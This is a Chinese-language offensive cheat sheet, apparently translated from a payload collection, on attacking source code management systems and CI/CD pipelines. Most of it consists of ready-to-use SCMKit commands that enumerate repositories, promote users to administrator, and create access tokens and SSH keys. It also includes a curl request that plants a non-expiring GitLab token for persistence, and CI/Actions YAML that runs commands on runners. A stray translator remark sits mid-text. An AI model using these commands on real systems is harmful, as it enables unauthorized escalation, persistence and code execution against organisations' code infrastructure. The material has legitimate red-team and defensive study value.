 # 源代码管理与CI/CD妥协

## 摘要

* [工具](#工具)
* [枚举仓库文件和密钥](#枚举仓库文件和密钥)
* [个人访问令牌](#个人访问令牌)
* [Gitlab CI/Github Actions](#gitlab-ci/github-actions)
* [参考资料](#参考资料)

## 工具

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - 列出CI/CD环境中存储的密钥并通过部署恶意管道提取它们
* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - 源代码管理攻击工具包

## 枚举仓库文件和密钥

使用[SCMKit - 源代码管理攻击工具包](https://github.com/xforcered/SCMKit)

* 发现特定SCM系统中正在使用的仓库

  ```ps1
  SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
  SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
  ```

* 在特定SCM系统中按仓库名称搜索仓库

  ```ps1
  SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
  SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
  ```

* 在特定SCM系统中搜索包含给定关键字的代码

  ```ps1
  SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
  SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
  ```

* 在特定SCM系统的仓库中搜索文件名包含给定关键字的文件

  ```ps1
  SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
  SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
  ```

* 列出GitLab中当前用户拥有的代码片段

  ```ps1
  SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
  SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
  ```

* 列出GitLab中当前用户可用的所有GitLab运行器

  ```ps1
  SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
  SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
  ```

根据您提供的文档，以下是各部分的中文翻译：

### 获取特定SCM系统中使用的访问令牌的分配权限

```powershell
SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
```

### 在特定SCM系统中将普通用户提升为管理员角色

```powershell
SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
```

### 创建/列出/删除在特定SCM系统中使用的访问令牌

```powershell
SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
```

### 创建/列出在特定SCM系统中使用的SSH密钥

```powershell
SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
```

## 个人访问令牌

为GitLab实例创建一个PAT（个人访问令牌）作为持久化机制。

```powershell
curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
```

## Gitlab CI/Github Actions

* Gitlab-CI "命令执行"示例：`.gitlab-ci.yml`

  ```yaml
  stages:
      - test
  
  test:
      stage: test
      script:
          - |
              whoami
      parallel:
          matrix:
              - RUNNER: VM1
              - RUNNER: VM2
              - RUNNER: VM3
      tags:
          - ${RUNNER}
  ```

* Github Action "命令执行"示例：`.github/workflows/example.yml`

  ```yaml
  name: example
  on:
    workflow_dispatch:
    push:
      branches: [ main ]
    pull_request:
      branches: [ main ]
  
  jobs:
    build:
      runs-on: windows-2019
  
      steps:
        - name: Execute
          run: |
            whoami
  ```

## 参考资料

* [控制源代码：滥用源代码管理系统 - Brett Hawkins - 2022年8月9日](https://securityintelligence.com/posts/abusing-source-code-management-systems/)
* [CI/CD秘密提取，技巧与诀窍 - Hugo Vincent, Théo Louis-Tisserand - 2023年1月3日](https://www.synacktiv.com/publications/cicd-secrets-extraction-tips-and-tricks.html)